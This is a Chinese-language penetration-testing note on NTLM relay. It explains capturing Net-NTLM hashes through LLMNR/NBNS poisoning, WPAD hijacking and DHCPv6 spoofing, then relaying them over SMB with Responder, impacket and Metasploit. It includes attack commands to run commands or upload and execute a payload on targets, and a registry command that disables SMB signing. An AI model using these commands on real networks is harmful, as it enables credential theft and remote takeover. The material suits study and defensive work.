







# NTLM中继

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

NTLM hash 分为 NTLMv1 NTLMv2 NTLMv2 session 三种，NTLMv2 的强度比 NTLMv1 强了不少 ，我们在实战中，如果获得的是 NTLMv1 的话直接对其进行爆破就行了，而现实情况中我们遇到的是 NTLMv2，NTLMv2 的密码强度高了不少，因此如果你没有一个超级强大的字典，你很难得到明文密码。那么，如果爆破行不通的话我们不妨试一下 NTLM Relay 攻击。

NTLM Relay 中，我们就是要将截获的 Net-NTLM Hash 重放来进行攻击，从而实现对其他机器的控制

对于工作组的机器来说，两台机器的密码需要一致才能成功，对于域用户来说，被欺骗用户（发起请求的用户）需要域管理员组里边的用户才可以，NTLM 中继成功后的权限为被欺骗用户的权限。

---

**相关文章**
- [内网渗透测试：NTLM Relay攻击分析](https://blog.csdn.net/whatday/article/details/107698383)
- [Windows内网协议学习NTLM篇之NTLM基础介绍](https://www.anquanke.com/post/id/193149)
- [Windows内网协议学习NTLM篇之发起NTLM请求](https://www.anquanke.com/post/id/193493)
- [Windows内网协议学习NTLM篇之Net-NTLM利用](https://www.anquanke.com/post/id/194069)
- [Windows内网协议学习NTLM篇之漏洞概述](https://www.anquanke.com/post/id/194514)

---

# 获得 hash(发起 NTLM 请求)

由于 SMB、HTTP、LDAP、MSSQL 等协议都可以携带 NTLM 认证的三类消息，所以只要是使用 SMB、HTTP、LDAP、MSSQL 等协议来进行 NTLM 认证的程序，都可以尝试向攻击者发送 Net-NTLMhash 从而让攻击者截获用户的 Net-NTLMhash，也就是说我们可以通过这些协议来进行攻击。

## LLMNR 和 NetBIOS 欺骗

Windows系统名称解析顺序为：
1. 本地 hosts 文件（%windir%\System32\drivers\etc\hosts）
2. DNS 缓存 / DNS 服务器
3. 链路本地多播名称解析（LLMNR）和 NetBIOS 名称服务（NBT-NS）

也就是说，如果在缓存中没有找到名称，DNS 名称服务器又请求失败时，Windows 系统就会通过链路本地多播名称解析（LLMNR）和 Net-BIOS 名称服务（NBT-NS）在本地进行名称解析。

这时，客户端就会将未经认证的 UDP 广播到网络中，询问它是否为本地系统的名称，由于该过程未被认证，并且广播到整个网络，从而允许网络上的任何机器响应并声称是目标机器。当用户输入不存在、包含错误或者 DNS 中没有的主机名时，通过工具 (responder) 监听 LLMNR 和 NetBIOS 广播，攻击者可以伪装成受害者要访问的目标机器，并从而让受害者交出相应的登陆凭证。核心过程与 arp 欺骗类似，我们可以让攻击者作中间人，截获到客户端的 Net-NTLMHash。

也就是说 LLMNR 并不需要一个服务器，而是采用广播包的形式，去询问 DNS，如同 ARP 投毒一样的安全问题。

而 NetBIOS 协议进行名称解析是发送的 UDP 广播包。因此在没有配置 WINS 服务器的情况底下，LLMNR 协议存在的安全问题，在 NBNS 协议里面同时存在。

- [Responder欺骗](./Responder欺骗.md)

## WPAD 劫持

wpad 全称是 Web Proxy Auto-Discovery Protocol ，通过让浏览器自动发现代理服务器，定位代理配置文件 PAC(在下文也叫做 PAC 文件或者 wpad.dat)，下载编译并运行，最终自动使用代理访问网络。


默认自动检测设置是开启的。

WPAD 网络代理自动发现协议是一种客户端使用 DCHP、DNS、LLMNR、NBNS 协议来定位一个代理配置文件 (PAC)URL 的方法。WPAD 通过让浏览器自动发现代理服务器，查找存放 PAC 文件的主机来定位代理配置文件，下载编译并运行，最终自动使用代理访问网络。

用户在访问网页时，首先会查询 PAC 文件的位置，然后获取 PAC 文件，将 PAC 文件作为代理配置文件。

查询 PAC 文件的顺序如下：
1. 通过 DHCP 服务器
2. 查询 WPAD 主机的 IP
    - Hosts
    - DNS (cache / server)
    - LLMNR
    - NBNS

### 配合 LLMNR/NBNS 投毒

一个典型的劫持方式是利用 LLMNR/NBNS 欺骗来让受害者从攻击者获取 PAC 文件，PAC 文件指定攻击者就是代理服务器，然后攻击者就可以劫持受害者的 HTTP 流量，在其中插入任意 HTML 标签从而获得用户的 Net-NTLMHash。

当你的浏览器设置为 “自动检测代理设置” 的情况下，它就会下载攻击者事先准备好的 wpad.dat 文件，这样一来，客户端的流量就会经过攻击者的机器。

受害者通过 llmnr 询问 wpad 主机在哪里，Responder 通过 llmnr 投毒将 wpad 的 ip 指向 Responder 所在的服务器

Responder 可以创建一个假 WPAD 服务器，并响应客户端的 WPAD 名称解析。 然后客户端请求这个假 WPAD 服务器的 wpad.dat 文件。

受害者访问 WPAD/wpad.dat，Responder 就能获取到用户的 net-ntlm hash(这个 Responder 默认不开，因为害怕会有登录提醒，不利于后面的中间人攻击，可以加上 - F 开启)

- [Responder欺骗](./Responder欺骗.md#wpad)

微软在 2016 年发布了 MS16-077 安全公告，添加了两个重要的保护措施，以缓解这类攻击行为
1. 系统再也无法通过广播协议来解析 WPAD 文件的位置，只能通过使用 DHCP 或 DNS 协议完成该任务。
2. 更改了 PAC 文件下载的默认行为，以便当 WinHTTP 请求 PAC 文件时，不会自动发送客户端的域凭据来响应 NTLM 或协商身份验证质询。

### 配合 DHCPv6

MS16-077 以后更改了 PAC 文件下载的默认行为，以便当 WinHTTP 请求 PAC 文件时，不会自动发送客户端的域凭据来响应 NTLM 或协商身份验证质询。

在访问 pac 文件的时候，我们没办法获取到用户的 net-ntlm hash。但默认 responder 不开启，要手动加 - F 选项才能开启。我们可以给用户返回一个正常的 wpad。将代理指向我们自己，然后我们作为中间人。这个时候可以做的事就很多了。比如插入 xss payload 获取 net-ntlm hash，中间人获取 post，cookie 等参数，通过 basic 认证进行钓鱼，诱导下载 exe 等等。可以配合 LLMNR/NBNS 投毒。

给用户返回一个正常的 wpad。将代理指向我们自己，当受害主机连接到我们的 “代理” 服务器时，我们可以通过 HTTP CONNECT 动作、或者 GET 请求所对应的完整 URI 路径来识别这个过程，然后回复 HTTP 407 错误（需要代理身份验证），这与 401 不同，IE/Edge 以及 Chrome 浏览器（使用的是 IE 设置）会自动与代理服务器进行身份认证，即使在最新版本的 Windows 系统上也是如此。在 Firefox 中，用户可以配置这个选项，该选项默认处于启用状态。

在 MS16-077 之后，通过 DHCP 和 DNS 协议还可以获取到 pac 文件。

DHCP 和 DNS 都有指定的服务器，不是通过广播包，而且 dhcp 服务器和 dns 服务器我们是不可控的，没法进行投毒。而从 Windows Vista 以来，所有的 Windows 系统（包括服务器版系统）都会启用 IPv6 网络，并且其优先级要高于 IPv4 网络。

DHCPv6 协议中，客户端通过向组播地址发送 Solicit 报文来定位 DHCPv6 服务器，组播地址 `[ff02::1:2]` 包括整个地址链路范围内的所有 DHCPv6 服务器和中继代理。DHCPv6 四步交互过程，客户端向 `[ff02::1:2]` 组播地址发送一个 Solicit 请求报文，DHCP 服务器或中继代理回应 Advertise 消息告知客户端。客户端选择优先级最高的服务器并发送 Request 信息请求分配地址或其他配置信息，最后服务器回复包含确认地址，委托前缀和配置（如可用的 DNS 或 NTP 服务器）的 Relay 消息。通俗点来说就是，在可以使用 ipv6 的情况(Windows Vista 以后默认开启), 攻击者能接收到其他机器的 dhcpv6 组播包的情况下，攻击者最后可以让受害者的 DNS 设置为攻击者的 IPv6 地址。

可以利用 Fox-IT 公开的工具进行攻击

**相关文章**
- [mitm6 – compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
    - [mitm6：通过IPv6攻破IPv4网络](https://www.anquanke.com/post/id/94689)

**mitm6**
- https://github.com/fox-it/mitm6
    ```bash
    pip install mitm6

    # 或
    https://github.com/fox-it/mitm6.git
    cd mitm6
    pip install -r requirements.txt
    python setup.py install
    ```

```
mitm6 -d test.local
```


```
impacket-ntlmrelayx -6 -wh test.local -t smb://192.168.141.129 -l ~/tmp/ -socks -debug
```






---

# 利用

## SMB中继

SMB 中继是最直接最有效的方法。可以直接控制该服务器 (包括但不限于在远程服务器上执行命令、上传 exe 到远程主机上执行、dump 服务器的用户 hash 等等)。

中继的前提是目标 SMB 签名需要关闭，在 SMB 连接中，需要使用安全机制来保护服务器和客户端之间传输数据的完整性，而这种安全机制就是 SMB 签名和加密，如果关闭 SMB 签名，会允许攻击者拦截认证过程，并且将获得 hash 在其他机器上进行重放，从而获得权限。

**工作组**

在工作组环境里面，工作组中的机器之间相互没有信任关系，每台机器的账号密码 Hash 只是保存在自己的 SAM 文件中，这个时候 Relay 到别的机器，除非两台机器的账号密码一样，不然没有别的意义了.但如果账号密码一样，不如直接 pth。

这个时候的攻击手段就是将机器 reflect 回机子本身。因此微软在 ms08-068 中对 smb reflect 到 smb 做了限制，防止了同一主机从 SMB 协议向 SMB 协议的 Net-NTLMhash relay。这个补丁在 CVE-2019-1384(Ghost Potato) 被绕过。

自从 MS08-068 漏洞修复之后无法再将 Net-NTLM 哈希值传回到发起请求的机器上，除非进行跨协议转发，但是该哈希值仍然可以通过中继转发给另外一台机器。利用 Responder 结合其他中继工具可以进行自动化的拦截并且对哈希值进行中继转发。唯一的一个不足之处就是，在这之前需要在进行转发操作的机器上禁用 SMB 签名。但是除了个别的例外，所有的 Windows 操作系统都默认关闭了 SMB 签名。

**域**

域环境底下域用户的账号密码 Hash 保存在域控的 ntds.dit 里面。如下没有限制域用户登录到某台机子，那就可以将该域用户 Relay 到别人的机子，或者是拿到域控的请求，将域控 Relay 到普通的机子，比如域管运维所在的机子。

- 域普通用户 != 中继
- 域管 == 中继
- 域普通用户+域管理员组 == 中继

## 签名

一般情况下，域控会默认开启，而 Windows 单机默认都不会开

关闭 SMB 签名验证的命令： Windows Server 系列中 RequireSecuritySignature 子键默认值为 1
```
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```

用 responder 工具包里面的 RunFinger.py 脚本扫描域内机器的 SMB 签名的开放情况
```
cd /usr/share/responder/tools
python RunFinger.py -i 192.168.141.0/24
```


可以看到除了域控 130，域内主机的 SMB 签名都已禁用（false）了

也可以用 nmap
```
nmap --script smb-security-mode,smb-os-discovery.nse -p445 192.168.141.0/24 --open
```

---

## responder MultiRelay

利用 MultiRelay.py 攻击，获得目标主机的 shell：
```
python3 MultiRelay.py -t <被攻击ip> -u ALL
```



现在 SMB 已经由 MultiRelay.py 脚本来进行中继，我们需要修改一下 responder 的配置文件Responder.conf，不让其对 hash 进行抓取。将 SMB 和 HTTP 的 On 改为 Off：
```
vim /usr/share/responder/Responder.conf

SMB=Off
HTTP=Off
```

重启 Responder.py，准备毒化（这里 responder 的作用就是当访问一个不存在的共享路径，将称解析降到 LLMNR/NBNS 时，来抓取网络中所有的 LLMNR 和 NetBIOS 请求并进行响应）
```
responder -I eth0
```



在 DC（192.168.141.130）上随便传递一个 SMB 流量
```
net use \\whoami
```


可以看到已经拿到了目标机器的 shell




---

## Impacket smbrelayx

```
impacket-smbrelayx -h <被攻击ip> -c whoami
```


让任意主机访问这个攻击者精心构造好的 SMB 服务器：
```
net use \\<kali IP>
```


此时，攻击者的 smbrelayx 脚本上就会发现命令成功执行了


```
impacket-smbrelayx -h <被攻击ip> -e shell.exe
```
用 -e 选项会在目标主机上传并运行我们的 payload

---

## Metasploit smb_relay(08-068)

当拿到用户的 smb 请求之后，最直接的就是把请求 Relay 回用户本身，即 Reflect。从而控制机子本身。漏洞危害特别高。

然而微软在 ms08-068 中对 smb reflect 到 smb 做了限制，防止了同一主机从 SMB 协议向 SMB 协议的 Net-NTLMhash relay。防止凭据重播的做法如下:

主机 A 向主机 B(访问 \\B) 进行 SMB 认证的时候，将 pszTargetName 设置为 cifs/B, 然后在 type 2 拿到主机 B 发送 Challenge 之后，在 lsass 里面缓存 (Challenge,cifs/B)。

然后主机 B 在拿到主机 A 的 type 3 之后，会去 lsass 里面有没有缓存 (Challenge,cifs/b)，如果存在缓存，那么认证失败。

这种情况底下，如果主机 B 和主机 A 是不同的主机的话，那 lsass 里面就不会缓存 (Challenge,cifs/B)。如果是同一台主机的话，那 lsass 里面肯定有缓存，这个时候就会认证失败。

这个补丁在 CVE-2019-1384(Ghost Potato) 被绕过。

```
use exploit/windows/smb/smb_relay
run
```

在目标的 cmd 中执行 `net use \\<kali ip>\c$` 来访问攻击者搭建的恶意 smb 服务

---

## Impcaket ntlmrelayx

ntlmrelayx 脚本可以直接用现有的 hash 去尝试重放指定的机器
```
impacket-ntlmrelayx -t smb://<被攻击ip> -c whoami -smb2support
```



诱导域管理员或普通域用户访问攻击机搭建的伪造 HTTP 或 SMB 服务，并输入用户名密码：



攻击者的 ntlmrelayx 上面即可显示成功在目标上执行命令


